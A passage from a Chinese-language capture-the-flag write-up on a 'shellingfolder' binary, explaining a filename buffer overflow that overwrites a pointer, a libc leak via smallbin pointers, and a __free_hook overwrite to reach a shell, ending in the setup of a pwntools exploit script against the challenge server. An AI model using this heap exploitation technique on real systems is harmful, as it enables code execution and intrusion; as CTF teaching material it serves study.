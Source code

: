 ```c
      else
      {
        printf("%s : size %ld\n", &s, cur_folder->sub_file[idx]->file_size);
        *v3 += cur_folder->sub_file[idx]->file_size;
      }
    }
    ++idx;
  }
  printf("The size of the folder is %ld\n", cur_folder->file_size);

}
```
第 17 行程式會將 `file->name` 複製到一個 buffer `s` 裡面。一個 file name 最多 31 個字元，**但是 `s` 的大小卻只有 24**，因此存在著 buffer overflow 的漏洞。透過這個漏洞，我們將有辦法蓋到 `v3` 這個變數。

## Exploit
`v3` 是一個 `int*` 指標，指向 `file->file_size`。如果我們有辦法將 `v3` 覆蓋掉，加上 `file_size` 我們可控，因此執行到第 25 行的程式碼時:
```c
 *v3 += cur_folder->sub_file[idx]->file_size;
```
 **我們就有辦法做到任意位址的讀寫**

不過因為這題保護全開的關係(包括PIE)，因此我們必須先想辦法 leak 一些 address。以下是我使用的方法:

1. 先新增&刪除掉一些檔案，讓指向 smallbin 頭 (位於 libc 裡面)的 pointer 能夠出現在 heap memory 上面。
2. 透過 overflow 的漏洞，先針對 `v3` 做 partial overwrite，使其指向一個 `struct file*` 指標 `p` (意即此時 `*v3` = `p`)。
3. 透過控制 `file_size`，我們可以對 `p` 進行覆寫 ( `p`=`p`+`file_size` )，讓 `p` 落在一個新的 heap address 上面，並使得 `p->name` 可以剛好對到 smallbin head 的 pointer。
4. List 出資料夾內的檔名，此時就可以 leak 出 libc 的 address。

這題的 GOT 唯讀，不過有用到 `malloc` 和 `free`，加上我們已經 leak 出了 libc 的 base address ，因此可以透過 overwrite 掉 libc 裡面的 `__free_hook` 變數，來讓程式在執行 `free` 的時候跳到我們想要跳的地方 ( 這裡我是直接跳到 one gadget 拿 shell )。

最後要注意的是，`file_size` 存的值是由 `atoi` 回傳的，也就是說最多就是 4 個 byte 的 integer，因此必須要分兩次做 overwrite : 一次 overwrite 掉 `__free_hook`，另外一次 overwrite 掉 `__free_hook+4`。


```python exp_shell.py
#!/usr/bin/env python

from pwn import *
import subprocess
import sys
import time

HOST = "52.69.237.212"
#HOST = "127.0.0.1"

PORT = 4869
ELF_PATH = "./shellingfolder_noalarm"
#LIBC_PATH = "/lib/x86_64-linux-gnu/libc.so.6"
LIBC_PATH = "./libc.so.6"

# setting 
context.arch = 'amd64'
context.os = 'linux'
context.endian = 'little'
context.word_size = 32
# ['CRITICAL', 'DEBUG', 'ERROR', 'INFO', 'NOTSET', 'WARN', 'WARNING']
context.log_level = 'INFO'

elf = ELF(ELF_PATH)
libc = ELF(LIBC_PATH)

def my_recvuntil(s, delim):
    res = ""
```